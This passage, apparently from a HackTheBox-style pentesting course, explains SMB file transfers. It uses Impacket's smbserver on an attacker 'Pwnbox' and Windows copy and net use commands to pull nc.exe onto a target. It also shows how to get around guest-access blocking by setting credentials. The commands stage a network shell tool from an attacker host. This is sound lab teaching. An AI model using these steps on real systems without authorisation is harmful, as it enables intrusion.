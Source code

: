 ## SMB Downloads

The Server Message Block protocol (SMB protocol) that runs on port TCP/445 is common in enterprise networks where Windows services are running. It enables applications and users to transfer files to and from remote servers.

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB.

#### Create the SMB Server

Create the SMB Server

```shell-session
glack@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

To download a file from the SMB server to the current working directory, we can use the following command:

#### Copy a File from the SMB Server

Copy a File from the SMB Server

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe

        1 file(s) copied.
```

New versions of Windows block unauthenticated guest access, as we can see in the following command:

Copy a File from the SMB Server

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine:

#### Create the SMB Server with a Username and Password

Create the SMB Server with a Username and Password

```shell-session
glack@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Mount the SMB Server with Username and Password

Mount the SMB Server with Username and Password

```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

**Note:** You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.